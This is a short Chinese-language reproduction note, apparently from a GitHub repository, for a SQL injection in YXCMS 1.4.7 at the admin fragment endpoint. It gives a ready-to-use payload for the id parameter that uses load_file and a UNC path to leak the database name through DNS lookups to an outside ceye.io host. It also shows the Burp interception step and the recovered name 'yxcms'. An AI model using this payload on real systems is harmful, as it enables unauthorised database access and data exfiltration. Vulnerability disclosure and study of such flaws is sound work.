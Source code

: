 ###1. 影响版本 ###
1.4.7
###2.漏洞复现 ###

url:/index.php?r=admin/fragment/index
![](YXCMS%201.4.7SQL%E6%B3%A8%E5%85%A5/Yi63i8.png)
利用ceye得到的回显
用bp抓包，修改id为

 payload:

    2 and if((select load_file(concat('\\',(select database()),'.36rdia.ceye.io\abc'))),2,2)


在ceye上面可以得到回显：

![](YXCMS%201.4.7SQL%E6%B3%A8%E5%85%A5/Yi6qOA.png)
得到了数据库名称yxcms
![](YXCMS%201.4.7SQL%E6%B3%A8%E5%85%A5/YicZkV.png)